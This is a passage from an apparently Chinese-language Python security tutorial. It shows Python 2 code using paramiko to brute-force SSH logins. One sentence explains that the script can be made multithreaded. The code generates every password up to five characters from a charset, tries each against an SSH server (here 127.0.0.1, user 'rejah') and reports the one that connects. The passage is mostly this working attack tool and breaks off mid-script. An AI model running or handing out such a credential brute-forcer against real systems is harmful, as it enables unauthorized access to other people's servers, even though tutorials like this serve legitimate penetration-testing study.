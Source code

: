 ```py
            continue 
        except socket.error, error: 
            print error 
            continue 
        except paramiko.SSHException, error: 
            print error 
            continue 
        except Exception, error: 
            print "Unknown error: "+error 
            continue     
        ssh.close() 

except Exception,error : 
    print error  

```

我们可以使用线程模块使此脚本多线程化：

```py
import paramiko, sys, os, socket, threading, time  
import itertools,string,crypt 

PASS_SIZE = 5 

def bruteforce_list(charset, maxlength): 
    return (''.join(candidate) 
        for candidate in itertools.chain.from_iterable(itertools.product(charset, repeat=i) 
        for i in range(1, maxlength + 1))) 

def attempt(Password): 

    IP = "127.0.0.1" 
    USER = "rejah" 
    PORT=22 

    try: 

        ssh = paramiko.SSHClient() 
        ssh.load_system_host_keys() 
        ssh.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 

        try: 
            ssh.connect(IP , port=PORT, username=USER, password=Password) 
            print "Connected successfully. Password = "+Password 
        except paramiko.AuthenticationException, error: 
            print "Incorrect password: "+Password 
            pass 
        except socket.error, error: 
            print error 
            pass 
        except paramiko.SSHException, error: 
            print error 
            print "Most probably this is caused by a missing host key" 
            pass 
        except Exception, error: 
            print "Unknown error: "+error 
            pass     
        ssh.close() 

    except Exception,error : 
        print error 

letters_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQSTUVWXYZ1234567890!@#$&()'  
```